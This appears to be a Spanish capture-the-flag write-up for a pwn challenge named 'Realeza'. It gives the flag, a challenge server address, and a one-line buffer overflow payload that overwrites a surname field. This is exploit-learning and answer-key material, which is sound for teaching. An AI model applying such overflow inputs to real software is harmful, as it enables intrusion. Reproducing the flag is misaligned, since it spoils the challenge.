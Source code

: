 # Nombre: `Realeza`
### Dificultad: `Medium (🃏🃏🃏)`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{b0f_l4_b4se_d3_t0d0_3xpl0it}`

### Descripción:
La reina ha muerto, dejando tras de sí un sinnúmero de secretos a los que solo la realeza puede acceder a través de este portal. Podrás hackearlo? `nc 104.237.138.109 5002`

### Hint 1:
`buffer overflow`

### Solución:
Overflow al buffer de nombre para sobreescribir el apellido.
`python -c 'print("A"*32+"Pérez")' | ./realeza`
